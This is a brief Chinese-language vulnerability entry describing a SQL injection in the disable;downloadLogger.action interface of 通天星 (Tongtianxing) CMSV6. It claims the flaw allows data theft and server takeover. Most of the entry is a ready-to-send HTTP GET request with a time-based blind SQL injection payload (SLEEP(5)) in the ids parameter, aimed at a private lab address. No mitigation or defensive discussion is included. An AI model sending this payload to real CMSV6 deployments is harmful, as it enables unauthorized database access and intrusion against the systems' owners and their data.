 **漏洞描述：**

通天星CMSV6接口disable;downloadLogger.action存在sql注入，攻击者可以通过拼接恶意SQL语句获取数据，进一步获取服务器权限。

**影响版本：**

通天星CMSV6

**Payload：**

```
GET/edu_security_officer/disable;downloadLogger.action?ids=1+AND+%28SELECT+2688+FROM+%28SELECT%28SLEEP%285%29%29%29kOIi%29HTTP/1.1
Host:192.168.52.130
User-Agent:Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Connection:close
X-Forwarded-For:127.0.0.1
Accept-Encoding:gzip, deflate
```

---
